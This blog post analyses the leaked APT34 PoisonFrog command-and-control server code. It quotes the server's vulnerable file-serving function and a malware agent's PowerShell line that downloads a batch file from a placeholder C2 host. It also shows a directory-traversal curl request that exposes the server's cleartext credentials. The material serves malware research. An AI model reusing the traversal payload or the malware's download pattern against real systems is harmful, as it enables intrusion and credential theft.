 ```yaml
---
layout: post
title:  "A journey on APT34 PoisonFrog C2 Server"
date:   2019-05-31
categories: security apt34 malware poisonfrog vulnerability
---
```


## Introduction

In this blog post I will analyse the C2 Server used by Oilrig/APT34 and how bad coding practice can lead to vulnerabilities that can allow the takeover of the C2 server.

Every time there is a leak that affects some hacking group it always sparks my interest. I always study the source code and the features these tools have in order to learn new techniques that may come in handy during our Red Team operations, so I started digging in the PoisonFrog C2 framework.


I started by downloading the tools on Github : https://github.com/blackorbird/APT_REPORT/tree/master/APT34


## PoisonFrog C2 Server


The C2 Server is built on node.js and the coding pattern that are used shows that whoever programmed the C2 side of the framework wasn't very experienced with programming. Unfortunately the source code of the C2 server is missing the most important part, the script bringing everything together, but by looking at different components of the framework we get a clear description of how everything is "glued" together.


The "serverside" folder of the C2 framework contains the following files :


* installing - This folder contains bash and bat scripts for the installation of the dependencies.
* routes - This folder contains a javascript file that contains most of the source code.
* views - The html templates.
* 0000000000.bat/9999999999.bat - bat files that gathers information about the computer is executed on.
* config.json - The C2 server configuration.


The most interesting file was index.js which was responsible for exporting most of the functions used by the C2 server.
Firstly, I started looking at the login functionality which immediately showed the code quality. As can be seen below, it first checks if a cookie with the username is set and if not it will try to compare the credentials provided on the request. 
This authentication mechanism is clearly poor and there are a lot of bad practices but none of them allows you to bypass the authentication.

```js
exports.login = function (req, res) { // .......... login checking function ............
    var Cookies = require('cookies');
    var cookies = new Cookies(req, res);
    var cookie = cookies.get(config.user);
    if (cookie === undefined) {
        //console.log("cookie not exist");
        var username = req.body.username;
        var password = req.body.password;
        //console.log(username+"   "+password);
        if (username == config.user && password == config.password) {
            // set cookie
            cookies.set(config.user, config.password, { maxAge: new Date(Date.now() + 3600000), expires: new Date(Date.now() + 3600000), httpOnly: true })
            //console.log('cookie created successfully');
            res.redirect("/in/http");
            return;
        } else {
            res.redirect(config.guid);
            return;
        }
    } else {
        // yes, cookie was already present 
        //console.log('cookie exists', cookie);
        res.redirect("/in/http");
    }
}
```


At this point I was pretty sure there would be some more poorly implemented code and I stumbled across the following function.

```js
exports.getFile = function (req, res) {
    var fileName = req.params.input;
    var fs = require('fs');
    var fileAddress = commonDir + "files/" + fileName;
    fs.createReadStream(fileAddress).pipe(res);
};
```
The exported function getFile initializes the fileName variable from the request that is sent to the C2 server. Since no sanitization is done on the input, an attacker can specify a specially crafted *input* parameter in  order to access files outside of the main directory.


Unfortunately, we do not have access to the entire source code but based on the code we have we can confirm that the vulnerability exists.


In order to understand at what point of the communication between the agent and the C2 the getFile function was used, I needed to get a better understanding of both components.


On line 826 the exports.agent function is defined with the comment "agent request for last command". From that comment we can clearly understand that this function is responsible for handling the command distribution on the agent. 
Basically what the function does is it will get the agentId from the request and check if this is an existing agent or not.
If it's a new agent, it will create three directories "/send/" , "/receive/", "/wait/" as can bee seen in the code snippet below.

```js
var agentCode = req.params.input;
[SNIP]
agentId = agentCode.substring(0, 5) + agentCode.substring(agentCode.length - 5, agentCode.length);
var agentDir = commonDir + "http/" + agentId;
        if (!fs.existsSync(agentDir)) { // this is new agent ....
            fs.mkdir(agentDir, function (err) {
                if (err) { console.log(err); }
                fs.mkdir(agentDir + "/send/");
                fs.mkdir(agentDir + "/receive/");
                fs.mkdir(agentDir + "/wait/", function (err) {
                    if (err) { console.log(err); }
[SNIP]
```

We can skip the send and receive folders and only focus on the /wait/ one. As I mentioned earlier, the *0000000000.bat* file was responsible for collecting information regarding a Windows host.
So after creating the wait folder, it will read the bat file and write it in commonDir + "/files/386be98ce7c7955f92dc060779ed7613" as can be seen in the below :

```js
fs.createReadStream("./0000000000.bat").pipe(fs.createWriteStream(commonDir + "/files/386be98ce7c7955f92dc060779ed7613"));
```

Additionally, it will create a file named 00000000 in the Agent wait directory.
```js
fs.writeFile(agentDir + "/wait/0000000000", "0000000000<>C:\\Users\\Public\\Public_Data\\files\\0000000000.bat<>0000000000.bat<>386be98ce7c7955f92dc060779ed7613<>not", function (err) { if (err) { console.log(err); } });
```

We can see that the filename *386be98ce7c7955f92dc060779ed7613* which was created previously, is embedded in the response the C2 server sends to the agent. Merely by looking at the constructed string we can see that the filename is used by the agent to access the bat file. If you remember the getFile function, it was using the same directory (commonDir + /files) to serve the files thus demonstrating the consistency of the file directories between the getFile and agents functions.


The other missing part of the puzzle is the URL endpoint the *getFile* function was called on and since some of the server code was missing my focus turned in analyzing the powershell Agent.

In order to understand the process better let's follow the communication between the agent and the C2 step by step.

1. Agents connects to the C2 Server.
2. C2 Server builds the command and sends it to the agent.
```0000000000<>C:\\Users\\Public\\Public_Data\\files\\0000000000.bat<>0000000000.bat<>386be98ce7c7955f92dc060779ed7613<>not```
3. The Agent receives the command from the C2, and creates an array out of it as we can see in the following code snippet:
```ps
if ({DownloadedCommand}) {
        {AgentCommandArray} = {DownloadedCommand}.split("<>") | where {$_}
```
4. After performing some checks on the array, the agent used powershell webclient in order to download the file named as the third(fourth) element of the array and saving it in $EEA+second(third) element of the array. The $EEA variable is defined in the beginning of the agent and contains the value $env:PUBLIC+"\Public\files\".

```ps
{WebClientGlbVariable}.DownloadFile("http://c2server/fil/"+{AgentCommandArray}[3], $EEA+{AgentCommandArray}[2]);
```
The "parsed" call would we something like this :
```WebClient.DownloadFile("http://c2server/fil/386be98ce7c7955f92dc060779ed7613",$env:PUBLIC+"\Public\files\" +  "0000000000.bat" .```

It should be noted that the following snippets of code has been taken by the HTTP agent that was dropped by the powershell script. Also, some of the variable names have been  changed to be more clear to read.

Now we can clearly connect all the dots between the way the agent downloads the file and how the getFile function is responsible for sending the file response back.

## Conclusions

Having a good understanding of where the vulnerable function is used, the implementation of the missing code would be something like this :

```js
const express = require('express')
const app = express()
[SNIP]
app.get('/fil/:input',getFile);
[SNIP]
```

As I described earlier in the post, this is a directory traversal vulnerability and can be exploited in several ways but the most relevant in this case would be reading the config.json file which contains the clear text credentials of the C2, giving us control over the C2 Server. An example service was started that implemented the same function as the C2 server and sending the following request disclosed the clear text credentials on the config.json file, in this case the ones in the leak.

```bash
test@ubuntu:~$ curl 'http://127.0.0.1:3000/fil/..%2Fconfig.json'
{
    "guid" : "/7345SDFHSALKJDFHNASLFSDA3423423SAD22",
        "user" : "blacktusk",
        "password" : "fireinthehole"
}test@ubuntu:~$
```

Keep in mind that this blog post this was constructed by my understanding of both the components of Poison Frog but I can't certainly confirm the existence of the vulnerability without having the entire code. However, there are firm evidences in the components code that agree with me ¯\_(ツ)_/¯ .

If you have any questions or maybe some knowledge to drop feel free to contact me.



